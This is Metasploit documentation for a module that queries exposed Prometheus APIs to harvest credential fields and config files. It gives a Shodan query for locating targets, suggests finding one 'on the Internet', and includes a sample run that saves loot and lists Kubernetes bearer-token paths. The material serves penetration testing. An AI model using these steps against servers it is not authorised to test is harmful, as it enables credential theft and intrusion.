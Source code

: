 ## Vulnerable Application

This module utilizes Prometheus' API calls to gather information about
the server's configuration, and targets. Fields which may contain
credentials, or credential file names are then pulled out and printed.

Targets may have a wealth of information, this module will print the following
values when found:
`__meta_gce_metadata_ssh_keys`, `__meta_gce_metadata_startup_script`,
`__meta_gce_metadata_kube_env`, `kubernetes_sd_configs`,
`_meta_kubernetes_pod_annotation_kubectl_kubernetes_io_last_applied_configuration`,
`__meta_ec2_tag_CreatedBy`, `__meta_ec2_tag_OwnedBy`

Shodan search: `"http.favicon.hash:-1399433489"`

A docker image is [available](https://hub.docker.com/r/prom/prometheus) however
this basic configuration has almost no interest data. Configuring it can be tricky
as it may not start w/o being able to contact the contacted services.

## Verification Steps

1. Install the application or find one on the Internet
1. Start msfconsole
1. Do: `use auxiliary/gather/prometheus_api_gather`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get any valuable information

## Options

## Scenarios

### Prometheus 2.39.1

```
msf6 auxiliary(gather/prometheus_api_gather) > set rhosts 11.111.11.111
rhosts => 11.111.11.111
msf6 auxiliary(gather/prometheus_api_gather) > set rport 80
rport => 80
msf6 auxiliary(gather/prometheus_api_gather) > run
[*] Running module against 11.111.11.111

[*] 11.111.11.111:80 - Checking build info
[+] Prometheus found, version: 2.39.1
[*] 11.111.11.111:80 - Checking status config
[+] YAML config saved to /root/.msf4/loot/20230815174315_default_11.111.11.111_PrometheusYAML_982929.yaml
[+] Credentials
===========

  Name                       Config         Host  Port  Public/Username  Private/Password/Token                               Notes
  ----                       ------         ----  ----  ---------------  ----------------------                               -----
  kubernetes-apiservers      authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token
  kubernetes-nodes           authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token
  kubernetes-nodes-cadvisor  authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token

[*] 11.111.11.111:80 - Checking targets
[+] JSON targets saved to /root/.msf4/loot/20230815174315_default_11.111.11.111_PrometheusJSON_145604.json
[*] 11.111.11.111:80 - Checking status flags
[+] Config file: /etc/config/prometheus.yml
[*] Auxiliary module execution completed
```

